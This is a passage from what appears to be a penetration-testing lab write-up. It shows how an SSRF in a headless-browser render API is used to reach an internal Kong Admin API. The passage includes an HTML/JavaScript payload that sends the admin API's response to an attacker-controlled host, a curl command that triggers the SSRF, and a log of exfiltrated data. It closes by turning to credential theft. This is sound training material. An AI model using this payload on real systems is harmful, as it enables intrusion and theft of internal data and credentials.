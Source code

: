 Let's create a new HTML page with a JavaScript function. First, the function will make a request to the Kong Admin API. If CORS is enabled and permissive enough on the Admin API, our JavaScript function will be able to access the response body and send it back to the web server running on our Kali host. If this doesn't work, we will have to consult the documentation for the Kong Admin API and determine what we can do without CORS.

```html
<html>
<head>
<script>
function exfiltrate() {
    fetch("http://172.16.16.2:8001")
    .then((response) => response.text())
    .then((data) => {
        fetch("http://192.168.45.203/callback?" + encodeURIComponent(data));
    }).catch(err => {
        fetch("http://192.168.45.203/error?" + encodeURIComponent(err));
    }); 
}
</script>
</head>
<body onload='exfiltrate()'>
<div></div>
</body>
</html>
```
After placing the JavaScript function in an HTML file in our webroot, we will again call the Render API on the new HTML page.

Let's trigger the SSRF vulnerability
```bash
┌──(kali㉿kali)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/api/render?url=http://192.168.45.203/exfil.html"}' http://apigateway:8000/files/import
{"errors":[{"message":"You don't have permission to access this.","extensions":{"code":"FORBIDDEN"}}]}                                                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ 
```
When we check access.log, we should have the callback message.
```log
kali@kali:~$ sudo tail /var/log/apache2/access.log 
...
192.168.120.135 - - [25/Feb/2021:13:18:47 -0500] "GET /exfil.html HTTP/1.1" 200 562 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
192.168.217.135 - - [29/Jul/2025:13:01:10 -0400] "GET /callback?%7B%22plugins%22%3A%7B%22enabled_in_cluster%22%3A%5B%22key-auth%22%5D%2C%22available_on_server%22%3A%7B%22grpc-web%22%3Atrue%2C%22correlation-id%22%3Atrue%2C%22...042%2C%22mem_cache_size%22%3A%22128m%22%2C%22pg_max_concurrent_queries%22%3A0%2C%22nginx_main_worker_p" 414 0 "-" "-"
```
Excellent. Our JavaScript function sent a request to the internal endpoint, then sent that response as a URL-encoded value back to our Kali host. The message might have been truncated, but our JavaScript function worked.
### Stealing Credentials from Kong Admin API
Next, we'll turn our focus to stealing credentials from the Kong Admin API with our JavaScript payload. As a reminder, when we first called the /render endpoint through the Kong API Gateway, it responded with `"No API key found in request"`. Let's try to find that API key in Kong's Admin API.
